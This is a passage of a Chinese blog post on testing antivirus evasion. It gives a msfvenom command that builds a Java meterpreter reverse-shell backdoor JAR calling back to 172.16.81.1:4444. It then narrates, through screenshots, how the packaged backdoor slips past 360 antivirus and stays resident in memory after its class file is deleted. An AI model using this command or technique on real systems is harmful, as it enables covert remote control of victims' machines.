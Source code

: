   

  

三、

 ** _免杀测试_**

  

生成默认的msf jar后门

msfvenom -p java/meterpreter/reverse_tcp LHOST=172.16.81.1 LPORT=4444 x
>~/Desktop/TestJar.jar

  

    
    
    监听：  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904004950.png)不打包，直接运行TestJar.jar会立马报毒：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904004951.png)按照上面的方法对TestJar.jar进行打包，在没有杀软和java环境的机器上安装并运行，可以成功上线：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904004953.png)在安装了360的机器上测试：

  

安装包查杀，未发现风险：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904004954.png)安装后的文件夹，未发现风险：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904004956.png)运行安装后的程序：

  

运行后不会马上出发告警  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904004957.png)尝试执行命令后出发告警了：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904004958.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904005001.png)可以看到，提示的是已经成功删除病毒文件(注意，这里删除的文件是.class文件)，但我们回到我们的meterpreter，发现并没有掉线，且能够正常执行所有命令，后续不会再有告警：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904005005.png)经过主动检测，除了普通的系统优化建议外，无法查杀出后门：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904005006.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904005008.png)通过上面测试，说明即使恶意文件被删除了，但是我们的会话还是在线，且不会再触发告警或被主动检测出风险，说明我们的后门的恶意类已经被加载进了内存。

  

从进程上看，只能看到有个java程序在运行：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904005009.png)

如果杀软开启针对内存检测的功能则免杀效果会失效，例如开启360的网购模式：

  

提示进程java.exe存在问题了  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904005011.png)

  
  

 ** _后记_**

  

## 优点
